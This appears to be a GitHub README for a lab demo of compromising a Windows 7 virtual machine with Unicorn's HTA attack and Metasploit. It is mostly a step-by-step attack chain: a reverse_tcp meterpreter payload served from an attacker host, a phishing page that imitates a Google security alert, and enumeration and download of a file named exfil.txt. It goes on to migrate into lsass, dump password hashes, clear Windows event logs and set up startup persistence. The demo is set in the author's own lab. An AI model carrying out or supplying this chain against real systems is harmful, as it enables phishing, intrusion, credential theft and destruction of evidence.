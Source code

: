 # Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/
Unicorn from https://github.com/trustedsec/unicorn
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.
## I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account
    Note that VMware versions lower than 11 have display issues with VM's on Catalina

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'
Start Metasploit "msfconsole' to initialize the db then 'exit' out

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.
If you are testing against an AV solution make sure its in "Detect Only" mode.
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update
    https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'
Run 'ifconfig' and note your IP
Switch to /opt/unicorn 'cd /opt/unicorn'
Review the README.md
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes

This generates the payload and metasploit configuration into our apache instance.
In my case the URL is http://172.16.105.131/hta_attack/
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.

## Download JAWS 'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'
Review the README.md 'cat /opt/JAWS/README.md'

Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted
This will generate a reverse tcp onto port 4444, you should see the session start.
Confirm the session 'sessions -i'
Connect to the session number 'sessions -i 1'
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'
Run the following commands (You may have to hit enter after the powershell commands run)
'shell'
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.
'exit'
'download exfil.txt'
'rm jaws-enum.ps1'
'rm exfil.txt'
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.
'ps' Review and find the pid for lsass.exe
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
